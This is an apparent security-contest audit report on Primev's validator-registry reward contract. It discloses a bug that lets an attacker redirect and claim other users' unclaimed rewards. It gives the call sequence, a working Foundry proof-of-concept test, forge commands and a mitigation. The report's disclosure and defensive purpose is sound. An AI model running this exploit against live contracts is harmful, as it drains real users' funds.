 # Primev Validator Registory

## Contest Summary

Code under review: [2025-05-primev](https://cantina.xyz/competitions/e92be0b9-b4f2-4bf2-9544-ae285fcfc02d) (223 nSLOC)

Contest Page: [primev-contest](https://cantina.xyz/competitions/e92be0b9-b4f2-4bf2-9544-ae285fcfc02d)


## Unclaimed Rewards Drain via `overrideReceiver()` Abuse

Due to a flaw in the auto-migration logic when removing an override receiver, an attacker can manipulate the system to steal unclaimed rewards from arbitrary users.

### Attack Path

1. Assume Alice has 10 ETH in unclaimed rewards.
2. The attacker sets Alice as their `overrideAddress` using `overrideReceiver(alice, migrateExistingRewards = false)`.
3. The attacker then calls `removeOverrideReceiver(migrateExistingRewards = true)`.
4. Due to auto-migration, Alice’s unclaimed rewards are transferred to the attacker’s account, and Alice’s balance becomes zero.
5. The attacker calls `claimRewards()` to collect the 10 ETH.

### Impact

This allows an attacker to steal unclaimed rewards from any user arbitrarily and repeatedly.
**Impact: High**

### Likelihood

The attack is trivial to perform, highly reproducible, and cannot be mitigated without pausing the contract, which would affect all users.
**Likelihood: High**

### Proof-of-Concept

> Add the following test case to `/contracts/test/validator-registry/rewards/RewardManagerTest.sol`.

```solidity
 function test_Attack_UnclaimedRewards() public {
        address attacker = address(0x1234567890);
        address victim = address(0xabcdefabcdef);

        // victim setting his stake in vanilla registry
        vm.deal(victim, 9 ether);
        assertEq(victim.balance, 9 ether);
        bytes[] memory validators = new bytes[](1);
        validators[0] = sampleValPubkey4;
        vm.startPrank(victim);
        vanillaRegistryTest.validatorRegistry().stake{value: 9 ether}(
            validators
        );
        vm.stopPrank();

        // assuring vitcim position in vanilla registry for sampleValPubkey4
        assertTrue(
            vanillaRegistryTest.validatorRegistry().isValidatorOptedIn(
                sampleValPubkey4
            )
        );

        vm.deal(user4, 2 ether);
        vm.prank(user4);
        rewardManager.payProposer{value: 2 ether}(sampleValPubkey4);

        // assuring victim have eth in unclaimed rewards
        assertEq(rewardManager.unclaimedRewards(victim), 2 ether);

        //attacker balance before attack
        assertEq(attacker.balance, 0 ether);

        vm.startPrank(attacker);
        // attack starts
        rewardManager.overrideReceiver(victim, false);
        rewardManager.removeOverrideAddress(true);
        rewardManager.claimRewards();
        // attack ends
        assertEq(attacker.balance, 2 ether); // attacker got victim's unclaimed rewards
        assertEq(rewardManager.unclaimedRewards(victim), 0 ether); // victim has no unclaimed rewards anymore
    }
```

#### Commands to Generate Test Output

```bash
forge clean
```

```bash
forge test --match-test test_Attack_UnclaimedRewards --via-ir -vvvv
```

### Mitigation

- Avoid automatically migrating rewards when setting an override. Instead, allow the original receiver to claim their rewards and transfer them manually to the override address if desired.
